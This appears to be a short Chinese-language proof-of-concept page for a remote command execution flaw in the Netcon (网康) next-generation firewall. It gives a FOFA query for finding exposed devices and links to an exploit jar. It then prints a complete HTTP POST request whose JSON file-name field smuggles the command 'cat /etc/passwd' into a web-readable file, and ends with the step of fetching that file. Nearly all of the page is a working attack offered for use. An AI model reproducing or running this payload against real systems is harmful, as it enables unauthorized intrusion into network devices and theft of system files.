 ### 描述
fofa app="网康科技-下一代防火墙"

### 利用
利用jar包： `https://github.com/Yang0615777/PocList/blob/main/QiAnXin-WangKangFirewall-RCE.jar`

### POC
```
POST /directdata/direct/router HTTP/1.1
Host: x.x.x.x
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://x.x.x.x/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=d6o8gdugrhmvf2sq18ojhj50p3; ys-active_page=s%3A
Content-Length: 178

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/test_test.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```
  
### 然后访问：/test_test.txt  
![640.png](https://i.loli.net/2021/04/12/OIqT4v26rbM5JhZ.png)
